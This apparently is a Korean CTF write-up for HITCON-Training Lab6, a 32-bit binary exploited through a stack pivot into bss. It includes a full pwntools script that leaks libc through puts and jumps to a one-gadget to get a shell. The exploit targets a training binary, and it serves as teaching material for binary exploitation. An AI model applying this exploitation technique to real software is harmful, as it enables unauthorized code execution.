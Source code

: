 ```yaml
---
title: "[HITCON-Training]Lab6"
date: 2019-11-17
ctf: HITCON-Training
layout: post
published : false
---
```


32비트 바이너리다.

```
migration: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e65737a9201bfe28db6fe46f06d9428f5c814951, not stripped
```

보호기법은 Full RELRO, NX가 걸려있다.

```
[*] '/vagrant/ctfs/migration'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

메인은 그냥 입력을 받는데 ebp-0x28위치에 있어서 payload를 쓸 수 있는 공간이 크지 않다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [esp+0h] [ebp-28h]

  if ( count != 1337 )
    exit(1);
  ++count;
  setvbuf(_bss_start, 0, 2, 0);
  puts("Try your best :");
  return read(0, &buf, 64u);
}
```

stack pivot을 이용해서 풀었다.

sfp에 bss1을 씀으로 ebp 변경하고 read로 ret을 해서 입력을 받은 값이 bss1 영역에 들어간다. 그리고 leave-ret으로 다음 입력 받는 값을 ebp로 바꾼다. 그리고 그 다음 주소는 eip가 되고 그 주소로 jmp한다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
# context.log_level = 'debug'
e = ELF('./migration')
p = process('./migration')
libc = e.libc
bss1 = e.bss() + 0x100
bss2 = bss1 + 0x100
pr = 0x0804836d # pop ebx ; ret
leave_ret = 0x08048418

payload = 'A'*40
payload += p32(bss1) # sfp -> ebp
payload += p32(e.plt['read'])
payload += p32(leave_ret)
payload += p32(0)
payload += p32(bss1)
payload += p32(0x100)

p.sendafter(':',payload)

payload2 = p32(bss2) # ebp
payload2 += p32(e.plt['puts']) # eip -> jmp
payload2 += p32(pr)
payload2 += p32(e.got['puts'])
payload2 += p32(e.plt['read'])
payload2 += p32(leave_ret)
payload2 += p32(0)
payload2 += p32(bss2)
payload2 += p32(0x100)

p.sendline(payload2)
p.recvuntil('\n')

libc_base = u32(p.recv(4)) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

payload3 = 'AAAA'
payload3 += p32(libc_base + 0x3ac5c) # oneshot

p.sendline(payload3)

p.interactive()
```